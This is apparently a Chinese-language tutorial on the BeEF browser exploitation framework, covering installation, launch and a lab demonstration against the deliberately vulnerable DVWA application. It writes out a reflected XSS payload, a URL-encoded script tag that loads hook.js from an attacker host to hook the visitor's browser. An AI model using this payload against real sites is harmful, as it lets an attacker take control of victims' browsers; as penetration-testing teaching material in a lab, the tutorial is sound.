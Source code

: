 # BeEF 浏览器渗透框架简介

https://beefproject.com/

https://github.com/beefproject/beef

BeEF是一种浏览器渗透框架，可作为渗透测试web浏览器的工具，主要构造客户端攻击向量，例如XSS.

## 安装
```shell
#source code pull
git clone https://github.com/beefproject/beef

#支持库安装
apt-get install python-software-properties
sudo apt-add-repository -y ppa:brightbox/ruby-ng
#安装
./install

```

## 运行
```shell
sudo beef-xss
```
正常会出现下列命令输出：
<img src="images/tools/beef/beefxss01.png" width="480">

然后我们打开有xss漏洞的DVWA应用，其IP地址为10.10.10.135；

之后使用宿主机浏览器去访问DVWA中的反射型xss，可以先在输入框中输入一些字符，然后提交，可以看到地址栏url变为：
```http://10.10.10.135/dvwa/vulnerabilities/xss_r/?name=123#```

然后改写为：
```http://10.10.10.135/dvwa/vulnerabilities/xss_r/?name=%3Cscript%20src=%22http://10.10.10.141:3000/hook.js%22%3E%3C/script%3E#```

或```http://10.10.10.135/dvwa/vulnerabilities/xss_r/?name=%3Cscript%20src=%22http://10.10.10.141:3000/hook.js%22%3E%3C/script%3E#```

<img src="images/tools/beef/beefxss02.png" width="480">


<img src="images/tools/beef/beefxss03.png" width="480">